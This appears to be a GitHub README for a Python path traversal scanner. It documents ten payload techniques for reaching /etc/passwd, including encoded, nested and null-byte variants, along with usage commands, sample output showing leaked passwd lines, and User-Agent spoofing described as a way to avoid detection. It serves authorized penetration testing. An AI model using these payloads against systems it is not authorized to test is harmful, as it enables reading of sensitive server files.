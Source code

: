# Dynamic Path Traversal Tester (GET)

## Overview
This script is a **dynamic path traversal testing tool** designed to identify potential vulnerabilities in web applications.  
It attempts multiple traversal techniques against a given endpoint and detects whether responses resemble sensitive files such as `/etc/passwd`.

- Supports testing **single or multiple URLs**.  
- Automatically detects parameters to inject if none are specified.  
- Provides two modes of output:  
  - **Verbose (`--verbose`)**: detailed raw request/response info (original style).  
  - **Non-verbose (default)**: concise, professional output with colors.  

---
## Demo

![Demo](demo.gif)

---
## Features
- Built-in **10 traversal payload techniques**.
- Automatic detection of `/etc/passwd`-like content.
- Optional **list of URLs** input.
- Configurable delay and timeout.
- Support for ignoring TLS verification (`--insecure`).
- Support for following redirects (`--follow`).
- **User-Agent spoofing** to avoid detection.

---

## Requirements
- Python **3.7+**
- Install dependencies:
  ```bash
  pip install requests colorama
  ```

---

## Techniques Included

| ID   | Description                          | Example Payload                               |
|------|--------------------------------------|-----------------------------------------------|
| T01  | Absolute path                        | `/etc/passwd`                                 |
| T02  | Simple traversal `../` ×6            | `../../../../../../etc/passwd`                |
| T03  | Nested traversal `....//` ×3         | `....//....//....//etc/passwd`                |
| T04  | Nested traversal `....\/` ×3        | `....\/....\/....\/etc/passwd`             |
| T05  | Single URL-encoded `../` ×3          | `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd`       |
| T06  | Double URL-encoded `../` ×3          | `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd` |
| T07  | Non-standard `..%c0%af` ×3           | `..%c0%af..%c0%af..%c0%afetc/passwd`          |
| T08  | Non-standard `..%ef%bc%8f` ×3        | `..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc/passwd` |
| T09  | Base-dir bypass                      | `/var/www/images/../../../etc/passwd`         |
| T10  | Null byte terminator `.png`          | `../../../etc/passwd%00.png`                  |

---

## Usage
### Test a single URL
```bash
python3 traversal_tester.py -u "http://localhost:8080/download?file=test.txt"
```

### Specify a parameter
```bash
python3 traversal_tester.py -u "http://localhost:8080/download" -p filename
```

### Test multiple URLs from a file
```bash
python3 traversal_tester.py --list targets.txt
```

### Enable verbose mode (detailed output)
```bash
python3 traversal_tester.py -u "http://localhost:8080/download" --verbose
```

---

## Example Output

### Default (non-verbose, colored)
```
[TARGET] http://localhost:8080/download
[T01] Absolute path (filename) → No match
[T02] Simple traversal ../ x6 (filename) → POSSIBLE LEAK!
[✓] No /etc/passwd leak detected
```

### Verbose
```
[+] Target: http://localhost:8080/download
[+] Params: filename
[+] Techniques: 10

T02 | Simple traversal ../ x6 | param=filename
    URL     : http://localhost:8080/download?filename=../../../../etc/passwd
    Status  : 200  Size: 1423 bytes
    RESULT  : POSSIBLE /etc/passwd LEAK ✅
      > root:x:0:0:root:/root:/bin/bash
      > daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

---

## Disclaimer
This tool is intended **for educational and authorized penetration testing purposes only**.  
The author is **not responsible for misuse or damage** caused by this script.
